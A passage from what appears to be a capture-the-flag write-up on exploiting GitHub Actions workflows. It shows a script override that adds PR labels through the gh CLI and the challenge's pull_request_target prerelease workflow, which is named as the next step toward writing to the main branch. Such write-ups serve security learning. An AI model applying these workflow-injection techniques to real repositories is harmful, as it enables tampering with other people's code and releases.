 ```py

// output = execSync('gh pr edit --add-label "flag" --repo kontinuerlig-chal/KONTINUERLIG-msanft 3', { encoding: 'utf-8' });
// console.log(output);
""")
    
def dumps(obj, **kwargs):
    return '[]'
```

Here, we simply override the GitHub script file being executed in the `Comment` step with our own commands, where we
create (and later assign) the required labels, giving us the primitives we need to continue with the other workflows.

Since the `flag.yml` workflow is of relatively low complexity, and just prints the redacted flag, it was obvious that
the `prerelease.yml` workflow would be the next target in our exploitation chain.

## Altering the `main` branch contents

As the `flag.yml` workflow runs in the context of the base branch (i.e. `main`), and there's no input to the workflow
except for that, it's inevitable that we need to alter the contents of the `main` branch to achieve anything there.

In the `prerelease.yml` workflow, the Dockerfile is being built with the `contents: write` permission:

```Dockerfile
# Dockerfile
FROM alpine
RUN echo "You'll need to assemble the build yourself"
```

```yaml
# prerelease.yml
name: Prerelease

on: pull_request_target

jobs:
  prerelease:
    if: contains(github.event.pull_request.labels.*.name, 'reviewed')
    runs-on: ubuntu-24.04
    timeout-minutes: 1
    permissions:
      contents: write
    steps:
      - uses: actions/checkout@v5
        with:
          ref: ${{ github.event.pull_request.head.sha }}
      - name: Test build
        run: |
          # Isolate the build in Docker
          docker build ./docker/
          echo 'Build succeeded!'
      - name: Release
        env:
          GH_TOKEN: ${{ github.token }}
        run: gh release create --prerelease --generate-notes rel-${{ github.event.pull_request.head.sha }}-pre
```
